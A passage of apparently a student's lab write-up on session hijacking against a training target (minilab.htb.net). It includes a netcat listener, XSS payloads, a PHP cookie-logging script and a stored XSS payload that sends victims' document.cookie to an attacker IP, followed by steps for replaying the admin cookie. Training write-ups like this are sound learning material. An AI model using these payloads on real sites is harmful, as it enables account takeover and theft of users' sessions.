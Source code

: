 * Test this by setting up a listener - ```nc -nvlp 4444``` - and in the ```redirect_uri``` parameter we can mention <http://10.10.66.14:4444>; if we submit the form and a connection is made in our listener, then the app is vulnerable to Open Redirect.

## Skills Assessment

* From given info, we have to hijack admin session on endpoint <http://minilab.htb.net/submit-solution> after logging in with given creds

* The '/submit-solution' endpoint needs a ```?url``` parameter to be specified - if we setup a listener and specify our URL here, we can catch a response but it does not help much

* We can start by testing payloads for given profile - we can inject XSS payloads in all 3 fields and see which gets triggered when we use some other app functionality like 'Save' or 'Share'

* The payload ```<img src=x onerror=alert(1)>``` when injected in the 'Country' field gets triggered on using the 'Share' functionality of the app

* After injecting the payload, we can keep note of the profile link on 'Share' - <http://minilab.htb.net/profile?email=julie.rogers@example.com> - since that's when the XSS payload gets triggered and we see the alert

* Now that we know this field is vulnerable to XSS, we can modify this payload to get the admin user's session cookies and eventually hijack the session; as we do not have direct access to the admin user, we will have to use this technique so that we can listen for the cookie as soon as someone uses it

* We can follow the cookie logging script as previously done:

  ```php
  <?php
  $logFile = "cookieLog.txt";
  $cookie = $_REQUEST["c"];

  $handle = fopen($logFile, "a");
  fwrite($handle, $cookie . "\n\n");
  fclose($handle);

  header("Location: http://www.google.com/");
  exit;
  ?>
  ```

* And, we can use the following payload in the 'Country' field and save:

  ```js
  <style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http://10.10.120.14:8000/log.php?c=' + document.cookie;"></video>
  ```

* Host the PHP file using ```php -S 10.10.120.14:8000``` and then submit the malicious URL ```http://minilab.htb.net/profile?email=julie.rogers@example.com``` in the 'url' parameter at '/submit-solution' endpoint

* In our PHP server, we are able to capture the cookie, and the endpoint gives a JSON response with 'adminVisited' set to 'true'

* Now, this cookie value can be used to replace the current ```auth-session``` cookie value (in Web Developer Tools), and then refresh the page - we get the admin profile now. Change profile visibility to get the flag
